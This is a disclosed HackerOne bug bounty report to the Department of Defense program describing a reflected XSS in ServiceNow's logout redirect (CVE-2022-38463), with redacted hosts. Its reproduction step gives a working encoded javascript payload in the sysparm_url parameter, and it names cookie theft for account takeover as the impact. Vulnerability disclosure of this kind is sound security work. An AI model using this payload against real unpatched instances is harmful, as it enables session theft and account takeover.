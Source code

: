 # Reflected XSS at https://██████/

## Report Details
- **Report ID**: 1681178
- **URL**: https://hackerone.com/reports/1681178
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-08-26T10:08:17.213Z
- **Disclosed**: 2023-09-29T17:26:53.222Z

## Reporter
- **Username**: testingforbugs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
There exists a reflected XSS within the logout functionality of ServiceNow. This enables an unauthenticated remote attacker to execute arbitrary JavaScript.

## References
* https://support.servicenow.com/kb?id=kb_article_view&sysparm_article=KB1156793

## Impact

Steal cookies to account takeover.

## System Host(s)
█████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2022-38463

## Steps to Reproduce
1.Go to https://████/logout_redirect.do?sysparm_url=//j%5c%5cjavascript%3aalert(document.domain)
2.You will see alert box like this.
███████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
